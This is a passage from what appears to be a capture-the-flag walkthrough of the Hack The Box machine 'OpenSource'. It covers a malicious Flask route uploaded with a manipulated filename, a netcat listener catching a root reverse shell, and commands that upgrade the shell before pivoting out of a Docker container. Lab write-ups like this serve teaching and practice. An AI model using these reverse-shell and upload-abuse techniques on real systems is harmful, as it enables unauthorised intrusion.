 On visiting `/0xdf`, it will generate a reverse shell to me.

#### Upload

I’ll set Burp to intercept, and upload this file. I’ll verify the new route is there, and modify the `filename` to abuse the same trick I used earlier to read:

[![image-20220930081422279](https://0xdfimages.gitlab.io/img/image-20220930081422279.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220930081422279.png)

#### Shell

I’ll listen with `nc -lvnp 443` and visit `http://10.10.11.164/0xdf`. A shell connects back:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.164 33120
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```

This shell is a bit annoying, and output from Flask gets dumped into the socket periodically as well.

I’ll [upgrade the shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q) using Python and `stty` (since `script` isn’t in the container):

```

/app # python3 -c 'import pty;pty.spawn("sh")'
python3 -c 'import pty;pty.spawn("sh")'
/app # ^Z      
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
/app # 

```

## Shell as dev01 on OpenSource

### Enumeration

#### Identify OpenSource

Even before getting a shell it was very clear that this application is running from a Docker container. Now as root inside this container, and with no flags yet, I need to figure out how to pivot to the host.

The IP address of this container is 172.17.0.8 (though that will different depending on my VPN IP):
